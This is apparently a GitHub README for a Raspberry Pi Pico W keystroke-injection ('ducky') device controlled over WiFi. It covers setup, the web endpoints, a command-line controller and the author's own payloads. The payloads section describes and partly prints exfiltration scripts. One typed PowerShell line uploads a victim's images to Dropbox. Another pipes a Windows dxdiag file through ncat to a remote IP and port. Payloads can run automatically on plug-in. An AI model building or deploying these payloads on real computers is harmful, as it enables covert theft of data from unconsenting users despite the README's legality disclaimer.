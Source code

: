 
# Pico ducky with CLI over WiFi

Inspired by [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky). I decided pick up a [Raspberry Pi Pico W](https://www.raspberrypi.com/documentation/microcontrollers/raspberry-pi-pico.html) myself to experiment and play around with some of the ducky possiblities. I also added a CLI for the already existing web interface made by [dbisu](https://github.com/dbisu/pico-ducky).

### Use this tool and payloads to automate stuff and only for LEGAL purposes! Never target anyone if they DIDN'T give you permission as it is !!!ILLEGAL!!!

## Tools needed

Needed for this project:

- Raspberry Pi Pico W
- Micro USB to USB adapter
- Device to control pico through Wi-Fi (Laptop or phone with CLI)
(Optional) - stuff for payloads in this repository.
- Server to listen Ncat requests
- Dropbox access token

## Configuring Pico W

1.  [Download](https://github.com/fortijs40/PICO-w-ducky-CLI/releases/tag/Release_v1.0) everything and un-zip ```Pico.W.release.zip```
2. Plug in Raspberry Pico W to your computer and drag ```adafruit-circuitpython-raspberry_pi_pico_w-en_US-8.0.0.uf2``` into ```RPI-RP2``` and wait till it reboots
3. Copy over these files: ```code.py```  ```boot.py```  ```duckyinpython.py```  ```secrets.py```  ```webapp.py```  ```wsgiserver.py``` and  ```lib``` folder from ``` Pico W Release```  folder
4. Create new payloads or use existing ones
5. !!! ```secrets.py``` Contain wifi login and password for Pico W access point. You can change this or leave as is, but remember the login details.
6. (CAREFUL - if you have created and named script as ```payload1.dd```  it will run automatically after plugging in) Unplug and plug in again the Pico W 
7. You can now connect to ```TestAP``` WiFi access point and use CLI script [```CLI_4_web_ducky.py```](https://github.com/fortijs40/PICO-w-ducky-CLI/releases/download/Release_v1.0/CLI_4_web_ducky.py) for controlling the ducky remotely.
8. Don't do anything illegal and have fun automating stuff.
## Modifying ducky after setting it up

After setting everything up you might want to access the ducky again as mass storage device.

To do so, you need to:
- Connect the ```GP0``` and ```GND``` pin to not launch ```payload1.dd``` immediately after plugging it in (if you don't have ```payload1.dd``` on your ducky, then you can ignore this)
 
![Screenshot](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/0dd89f32-3f50-4a92-9d01-3cd22131d31c)
- Connect the ```GP15``` and ```GND``` pin to have the ducky open up as mass storage device.
![Screenshot](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/b62cd988-538b-4224-9a75-38c92c847a74)
## Main ducky script commands

```GUI r``` is the same as pressing ```win+r```. and can be used to launch ```cmd/powershell and other programs```

```STRING``` is used to type characters an example from my payload to force language to US in powershell
```
STRING Set-WinUserLanguageList -Force en-US

```
```REM``` is used to comment stuff out example from my payload. Everything in the same line after REM is simply ignored

```
REM You can change which ever path you want to the the pictures/files from.
REM Change line 32 to your OWN Dropbox access token
```

```DELAY``` is used to delay ducky from typing more commands and allow previous command to execute before the next one is ran. For example, if automating stuff on slower PC, ```DELAY``` will have to be increased or else the payload might mess up.
In example below ducky will wait 5 seconds after ```ENTER``` before executing next commands.
```
STRING Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
ENTER
DELAY 5000
```
```ENTER``` and ```DELETE``` are quite self explanatory. They can be used by themselves to either delete stuff or enter stuff.

Keys like ```CTRL```, ```ALT```, ```DELETE```,```ESC```,```TAB``` can be chained to gether to execute some of their combos.

More unique commands and keystrokes can be found in duckyinpython.py
## My payloads

I wanted to focus on exfiltration payloads and wanted to construct 2 scenarios with different exfiltration methods.

### 1. [Exfiltration using dropbox API](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/image_grab_n_exfiltrate.dd)

I got inspired from one of [Hack5 payloads](https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/exfiltration/dropbox-exfiltrator) to use dropbox API to exfiltrate some data. So I combined a script of gathering some pictures and the dropbox API script to exfiltrate images to my dropbox.

* One bad thing about this method of exfiltration is that [dropbox no longer supports long-lasting access tokens](https://developers.dropbox.com/oauth-guide#:~:text=Helper%20methods%20accept%20the%20refresh,for%20compatibility%20until%20mid%202021.) and current access tokens expire quite quickly which means the payload also needs to be changed often.

### 2. [Exfiltration using Ncat](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/dxdiag_ncat.dd)
For this exfiltration I wanted to demonstrate that if target system has a tool like Ncat, it can also be used to exfiltrate some information. So this payload is meant to exfiltrate dxdiag file from a Windows system to a remote PC by using ncat which is listening all the time. The script execute time is quite long because dxdiag takes some time. After that I used --ssl to encrypt the traffic.
```
ENTER
REM 12 second delay time to complete the dxdiag, since it takes a bit of time
DELAY 12000
REM takes dxdiag output and sends it over ncat to specific IP and port
STRING Get-Content "$env:TEMP\infins.txt" | ncat --ssl IP PORT
DELAY 100
ENTER
DELAY 5000

```

* This method can only work if target system has ncat installed.
## Web Interface

Web interface from [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky) was quite simple. 
It contained 6 access points:
- ```192.168.1.4:80/```
- ```192.168.1.4:80/ducky``` Main screen which displays available payloads
- ```192.168.1.4:80/new```  Used to create new payloads
- ```192.168.1.4:80/edit/<file_name>``` Used to edit existing payloads
- ```192.168.1.4:80/write/<file_name>``` Used as POST from edit to overwrite the previous payload
- ```192.168.1.4:80/run/<file_name>``` Execute the payload by its file_name

### Web Interface issues I noticed

* If file is edited or written by using web end points it will replace all ```+``` with ```space' '```. It is something that is needed to be kept in mind.
* Editing big payloads multiple times can sometimes crash the webserver and you will have to replug the ducky
* Editing non existant file will instanlty crash the Pico W webserver

## Command Line Interface
I made a CLI [```cmd_4_web_ducky.py```](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/cmd_4_web_ducky.py) based on provided web endpoints. CLI can be used instead of the web interface since it might be easier to use on some systems rather than the web.

CLI has few options:

- Ability to list names of scripts that are loaded on ducky
```
python ./cmd_4_web_ducky.py -l
or
python ./cmd_4_web_ducky.py --list
```
- Ability to run the loaded in scripts
```
python ./cmd_4_web_ducky.py -r <script_name>
or
python ./cmd_4_web_ducky.py --run <script_name>
```
- Ability to create new scripts based on existing file in the system. 
```
python ./cmd_4_web_ducky.py -c <script_path>
or
python ./cmd_4_web_ducky.py --create <script_path>
```
- Ability to edit files on ducky. Existing file on ducky will get overwritten by the local file and there is a small chance that Pico W webserver might crash if payload is too big.
```
python ./cmd_4_web_ducky.py -e <script_name> <script_path>
or
python ./cmd_4_web_ducky.py --edit <script_name> <script_path>
```
- Ability to show the content of existing scripts on ducky
```
python ./cmd_4_web_ducky.py -s <script_name>
or
python ./cmd_4_web_ducky.py --show <script_name>
```
![cli](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/f947e091-dbc4-4347-a6f2-7cc033307920)
## Revert ducky back to Pico W

To revert pico ducky back to regular Pico W:

* Unplug the ducky
* Hold ```BOOTSEL``` button on Pico W and plug it in while holding down the button. It will open mass storage to reset the Pico W
* Download [flash.nuke.uf2](https://datasheets.raspberrypi.com/soft/flash_nuke.uf2)
* Drag ```flash.nuke.uf2``` it into ```RPI-RP2```
* After reset Pico W should be flashed and clean
